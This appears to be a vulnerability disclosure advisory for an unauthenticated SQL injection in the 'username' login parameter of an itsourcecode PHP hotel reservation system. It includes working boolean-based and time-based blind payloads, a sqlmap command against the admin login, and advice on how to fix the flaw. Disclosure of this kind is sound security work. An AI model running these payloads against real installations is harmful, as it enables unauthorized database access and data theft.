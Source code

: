 # Itsourcecode Simple Online Hotel Reservation System in PHP Project With Source Code 1.0 index.php SQL injection
# NAME OF AFFECTED PRODUCT(S)
+ Simple Online Hotel Reservation System in PHP Project With Source Code
## Vendor Homepage
+ https://itsourcecode.com/free-projects/php-project/simple-hotel-online-reservation-system-php/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ N3xu5Cr4ck37
## Vulnerable File
+ index.php
## VERSION(S)
+ V1.0
## Software Link
+ https://itsourcecode.com/wp-content/uploads/2018/12/SimpleOnline_HotelReservation.zip
# PROBLEM TYPE
## Vulnerability Type
+ SQL injection
## Root Cause
+ A SQL injection vulnerability was found in the 'index.php' file of the 'Simple Online Hotel Reservation System in PHP Project With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter "username" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.
## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.
# DESCRIPTION
+ During the security review of "Simple Online Hotel Reservation System in PHP Project With Source Code", N3xu5Cr4ck37 discovered a critical SQL injection vulnerability in the "index.php" file. This vulnerability stems from insufficient user input validation of the 'username' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.
# No login or authorization is required to exploit this vulnerability
# Vulnerability details and POC
## Vulnerability type: 
+ boolean-based blind
+ time-based blind
## Vulnerability location:
+ 'username' parameter 
## Payload: 
```sql
    username=Admin' AND 8568=8568-- pQTp&password=admin&login=

    username=Admin' AND (SELECT 1873 FROM (SELECT(SLEEP(5)))PTDi)-- qlML&password=admin&login=
``` 
```makefile
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=Admin' AND 8568=8568-- pQTp&password=admin&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=Admin' AND (SELECT 1873 FROM (SELECT(SLEEP(5)))PTDi)-- qlML&password=admin&login=
```
+ ![1](https://github.com/L1OudFd8cl09/CVE/assets/171104034/58a0ae64-e4ae-4e54-9615-d3c93084b624)
## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```bash
    python sqlmap.py -u "http://localhost:8103/admin/index.php" --data="username=Admin&password=admin&login=" --method=POST --batch --level=5 --risk=3 --dbs
```
+ ![1](https://github.com/L1OudFd8cl09/CVE/assets/171104034/99bbb347-664f-4439-8aba-c10bf3e4f2e9)
# Suggested repair
1. **Use prepared statements and parameter binding:**
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
Strictly validate and filter user input data to ensure it conforms to the expected format. 

3. **Minimize database user permissions:**
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
